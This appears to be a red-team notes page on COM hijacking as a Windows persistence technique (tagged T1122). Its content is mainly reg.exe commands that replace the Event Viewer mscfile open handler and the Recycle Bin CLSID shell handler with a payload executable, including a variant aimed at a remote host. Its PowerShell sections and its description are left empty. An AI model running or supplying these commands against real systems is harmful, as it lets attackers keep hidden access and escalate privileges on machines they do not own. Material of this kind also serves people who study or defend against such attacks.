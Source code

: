 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1122
  - windows
---
```

# COM Hijacking

TODO: Fill this info

## Event Viewer

### Command Prompt

```
C:\> reg.exe add "HKLM\SOFTWARE\Classes\mscfile\shell\open\command" /f

C:\> reg.exe add "HKLM\SOFTWARE\Classes\mscfile\shell\open\command" /t REG_SZ /d "C:\path\to\shell.exe" /f
```

### PowerShell

```

```

## Recycle Bin

### Command Prompt

```
C:\> reg.exe add [\\<IP>\]HKCR\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\ /ve /t REG_SZ /d "C:\path\to\payload.exe" /f

C:\> reg.exe add [\\<IP>\]HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\ /ve /t REG_SZ /d "C:\path\to\payload.exe" /f
```

### PowerShell

```

```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Bypass User Access Control/Types of Bypassing UAC/MMC/Manual]]

### Persistence Info

- [Persistence Info: Recycle Bin COM Extension Handler](https://persistence-info.github.io/Data/recyclebin.html)

### Red Team Notes

- [Red Team Notes: COM Hijacking](https://www.ired.team/offensive-security/persistence/t1122-com-hijacking)